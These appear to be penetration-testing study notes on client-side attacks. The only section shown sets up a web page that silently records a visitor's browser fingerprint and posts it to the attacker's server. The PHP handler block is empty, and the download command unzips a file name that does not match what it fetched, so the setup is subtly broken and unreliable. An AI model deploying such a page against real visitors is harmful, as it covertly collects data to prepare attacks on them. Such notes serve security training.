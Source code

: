 # Client Side Attacks
## Table of Contents
- [Client Fingerprinting](#client-fingerprinting)
- [MsfVenom](#msfvenom)
- [Leveraging HTML Applications](#leveraging-html-applications)
  - [HTML Applications](#html-applications)
  - [HTA Attack in Action](#hta-attack-in-action)
- [Exploiting Microsoft Office](#exploiting-microsoft-office)
  - [Microsoft Word Macro](#microsoft-word-macro)
  - [Object Linking and Embedding](#object-linking-and-embedding)
  - [Evading Protected View](#evading-protected-view)
- [Phishing Emails](#phishing-emails)
  - [Fingerprinting](#fingerprinting)
  - [Reverse Shell](#reverse-shell)

## Client Fingerprinting
```sh
kali@kali:/var/www/html$ sudo wget https://github.com/fingerprintjs/fingerprintjs/archive/2.1.4.zip && sudo unzip master.zip && sudo mv fingerprintjs-master/ fp/ && cd fp
```
Then create a `fingerprint2.html` file and add this code:
```html
<!doctype html>
<html>
<head>
  <title>Blank Page</title>
</head>
<body>
  <h1>You have been given the finger!</h1>
  <script src="fingerprint2.js"></script>
  <script>
      var d1 = new Date();
      var options = {};
      Fingerprint2.get(options, function (components) {
        var values = components.map(function (component) { return component.value })
        var murmur = Fingerprint2.x64hash128(values.join(''), 31)
        var clientfp = "Client browser fingerprint: " + murmur + "\n\n";
        var d2 = new Date();
        var timeString = "Time to calculate fingerprint: " + (d2 - d1) + "ms\n\n";
        var details = "Detailed information: \n";
        if(typeof window.console !== "undefined") {
          for (var index in components) {
            var obj = components[index];
            var value = obj.value;
            if (value !== null) {
              var line = obj.key + " = " + value.toString().substr(0, 150);
              details += line + "\n";
            }
          }
        }
        var xmlhttp = new XMLHttpRequest();
        xmlhttp.open("POST", "/fp/js.php");
        xmlhttp.setRequestHeader("Content-Type", "application/txt");
        xmlhttp.send(clientfp + timeString + details);
      });
  </script>
</body>
</html>
```
Then create a js.php file with the following content:
```php
```